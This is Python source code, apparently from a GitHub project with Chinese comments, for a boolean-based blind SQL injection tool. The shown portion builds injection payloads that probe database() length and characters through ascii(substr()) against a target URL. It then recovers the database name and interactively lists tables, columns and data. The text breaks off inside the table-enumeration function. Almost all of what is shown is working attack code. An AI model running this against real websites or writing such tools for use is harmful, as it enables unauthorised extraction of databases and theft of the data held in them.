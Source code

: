 ```python
# 防止因为HTTP连接数过多导致的 Max retries exceeded with url
requests.adapters.DEFAULT_RETRIES = 5
conn = requests.session()
conn.keep_alive = False


# 盲注主函数
def StartSqli(url):
	GetDBName(url)
	print("[+]当前数据库名:{0}".format(DBName))
	GetDBTables(url,DBName)
	print("[+]数据库{0}的表如下:".format(DBName))
	for item in range(len(DBTables)):
		print("(" + str(item + 1) + ")" + DBTables[item])
	tableIndex = int(input("[*]请输入要查看表的序号:")) - 1
	GetDBColumns(url,DBName,DBTables[tableIndex])
	while True:
		print("[+]数据表{0}的字段如下:".format(DBTables[tableIndex]))
		for item in range(len(DBColumns)):
			print("(" + str(item + 1) + ")" + DBColumns[item])
		columnIndex = int(input("[*]请输入要查看字段的序号(输入0退出):"))-1
		if(columnIndex == -1):
			break
		else:
			GetDBData(url, DBTables[tableIndex], DBColumns[columnIndex])


# 获取数据库名函数
def GetDBName(url):
	# 引用全局变量DBName,用来存放网页当前使用的数据库名
	global DBName
	print("[-]开始获取数据库名长度")
	# 保存数据库名长度变量
	DBNameLen = 0
	# 用于检查数据库名长度的payload
	payload = "' and if(length(database())={0},1,0) %23"
	# 把URL和payload进行拼接得到最终的请求URL
	targetUrl = url + payload
	# 用for循环来遍历请求，得到数据库名长度
	for DBNameLen in range(1, 99):
		# 对payload中的参数进行赋值猜解
		res = conn.get(targetUrl.format(DBNameLen))
		# 判断flag是否在返回的页面中
		if flag in res.content.decode("utf-8"):
			print("[+]数据库名长度:" + str(DBNameLen))
			break
	print("[-]开始获取数据库名")
	payload = "' and if(ascii(substr(database(),{0},1))={1},1,0) %23"
	targetUrl = url + payload
	# a表示substr()函数的截取起始位置
	for a in range(1, DBNameLen+1):
		# b表示33~127位ASCII中可显示字符
		for b in range(33, 128):
			res = conn.get(targetUrl.format(a,b))
			if flag in res.content.decode("utf-8"):
				DBName += chr(b)
				print("[-]"+ DBName)
				break


#获取数据库表函数
def GetDBTables(url, dbname):
	global DBTables
```